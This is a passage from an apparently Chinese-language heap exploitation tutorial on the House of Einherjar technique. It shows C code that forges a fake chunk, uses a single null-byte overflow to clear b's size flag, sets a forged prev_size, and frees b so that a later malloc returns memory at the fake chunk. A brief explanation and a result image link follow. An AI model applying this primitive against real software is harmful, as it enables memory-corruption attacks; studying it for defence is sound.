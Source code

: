 ```C
    fprintf(stderr, "bck_nextsize: %#lx\n", fake_chunk[5]);

    b = (uint8_t *)malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

    fprintf(stderr, "\nWe allocate 0xf8 bytes for 'b'.\n");
    fprintf(stderr, "b: %p\n", b);

    uint64_t *b_size_ptr = (uint64_t *)(b - 8);
    fprintf(stderr, "\nb.size: %#lx\n", *b_size_ptr);
    a[real_a_size] = 0;
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

    size_t fake_size = (size_t)((b - sizeof(size_t) * 2) - (uint8_t *)fake_chunk);
    fprintf(stderr, "Our fake prev_size will be %p - %p = %#lx\n", b - sizeof(size_t) * 2, fake_chunk, fake_size);
    *(size_t *)&a[real_a_size - sizeof(size_t)] = fake_size;

    fake_chunk[1] = fake_size;

    free(b);
    fprintf(stderr, "Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    d = malloc(0x200);
    fprintf(stderr, "Next malloc(0x200) is at %p\n", d);
}
```

* 原理分析

第二块 chunk 的大小为 0xf8 是为了确保忽略标志位,这样忽略标志位大小并修改 size 就很简单

* 运行效果

![house_of_einheriar_result](../pictures/heap/house_of_einheriar/house_of_einheriar_result.png)
